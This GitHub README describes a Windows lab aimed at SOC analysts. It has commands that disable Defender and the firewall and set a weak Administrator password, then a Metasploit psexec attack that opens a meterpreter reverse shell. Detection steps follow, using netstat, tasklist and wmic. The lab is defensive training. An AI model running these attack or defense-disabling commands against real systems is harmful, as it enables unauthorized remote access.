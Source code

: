 # Windows Malware Analysis Lab via Metasploit

This lab demonstrates a **realistic malware simulation using Metasploit** and focuses on **detection and analysis techniques within Windows CLI**. It's intended for **SOC analysts**, **incident responders**, and **blue teamers** looking to sharpen their skills in post-exploitation process hunting.

---

## Lab Setup

- **Attacker Machine**: Kali Linux
- **Target**: Windows VM (Administrator Access)
- **Tool Used**: Metasploit (psexec module with meterpreter reverse shell)

---

## Phase 1: Prepare Windows for Attack

### Disable Defender and Firewall

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
netsh advfirewall set allprofiles state off
net user Administrator password1234
ipconfig
```

 ![Disable Defender](./01_disable_defender.png)

---

## Phase 2: Attack from Kali using Metasploit

### Setup Exploit and Launch Payload

```bash
msfconsole -q
use exploit/windows/smb/psexec
set PAYLOAD windows/meterpreter/reverse_tcp
set RHOST <Windows_IP>
set SMBUSER Administrator
set SMBPASS password1234
exploit
```

 ![Metasploit Attack Setup](./02_msf_attack_setup.png)

---

## Phase 3: Analyze on Windows Machine

### Step 1: Check for Open Connections

```powershell
netstat -naob
```

 ![Netstat Connections](./03_netstat_ports.png)

---

### Step 2: Resolve IP to Process ID

```powershell
netstat -f
tasklist /m /fi "pid eq 1476"
```

 ![Modules via Tasklist](./04_netstat_pid_modules.png)

---

### Step 3: Dig Deeper with WMIC

```powershell
wmic process where processid=1476 get commandline
wmic process get name,parentprocessid,processid | select-string 1476
```

 ![WMIC Process Details](./05_wmic_analysis.jpeg)

---

## Key Takeaways

- `netstat -naob` helps detect live reverse shell sessions (e.g., port 4444)
- `tasklist` and `wmic` provide process visibility and help identify injected/malicious activity
- Detection of PowerShell-based malware is possible through **manual PID tracking and command-line tracing**

---

## Author

**Venkata Naveen Kumar Prabhuleti**  
_Masters in Cybersecurity Analytics and Operations @ Penn State_  
[LinkedIn](https://www.linkedin.com/in/naveen-kumar-9b55a0154/)

---

## Folder Contents

```
Windows_Backdoor_Analysis_Lab/
├── 01_disable_defender.png
├── 02_msf_attack_setup.png
├── 03_netstat_ports.png
├── 04_netstat_pid_modules.png
├── 05_wmic_analysis.jpeg
└── README.md
```

## License

MIT License
